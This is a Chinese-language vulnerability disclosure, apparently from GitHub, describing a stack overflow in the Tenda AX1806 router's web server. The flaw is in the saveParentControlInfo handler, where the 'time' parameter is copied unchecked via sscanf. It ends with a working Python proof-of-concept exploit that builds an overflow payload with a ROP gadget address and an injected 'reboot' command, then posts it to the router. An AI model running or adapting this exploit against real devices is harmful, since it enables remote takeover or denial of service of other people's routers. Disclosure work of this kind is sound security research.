


# 漏洞描述

设备：Tenda-AX1806 v1.0.0.1 https://www.tenda.com.cn/download/detail-3306.html

漏洞类型：栈溢出

攻击效果：远程任意代码执行或拒绝服务

# 漏洞成因

该漏洞发生于tdhttpd文件的saveParentControlInfo函数中，goform/saveParentControlInfo页面

首先，saveParentControlInfo函数会调用到sub_60BE0函数



而在sub_60BE0函数中，v12来源于http数据包中的time参数



接着，该函数会直接调用sscanf函数来将v12切割到栈上，没有任何的安全检测

由此栈溢出发生

通过一串精心构造的time参数，就可以实现任意代码执行，拿到服务器控制权

# POC

任意代码执行的exp：

```python
from pwn import*
import requests

url = "https://192.168.2.1/goform/saveParentControlInfo"

gadget = 0x37208

time =  b"a" * 0x58
time += b";reboot" # command you want to execute
time += b"-"
time += b"b" * 0x34
time += p32(gadget)

r = requests.post(url, data = {"time":time},verify=False )

```
